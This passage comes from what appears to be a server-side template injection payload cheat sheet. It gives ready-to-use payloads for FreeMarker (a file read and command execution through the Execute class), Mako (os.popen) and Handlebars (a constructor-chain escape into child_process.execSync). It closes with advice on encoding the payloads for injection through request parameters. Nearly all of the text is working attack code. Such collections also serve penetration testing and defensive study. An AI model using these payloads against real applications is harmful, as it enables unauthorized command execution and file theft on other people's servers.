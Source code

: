 File read:
```html
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
# you have to convert the byte values to ascii
```

RCE:

```html
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
```


## Mako (Python)

RCE:

```html
<%
import os
x=os.popen('id').read()
%>
${x}
```

## Handlebars (JavaScript)

RCE (insert your commands in line 9):

```html
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

You probably want to remove the new-lines/whitespace and url-encode it when you inject it via GET/POST parameter.
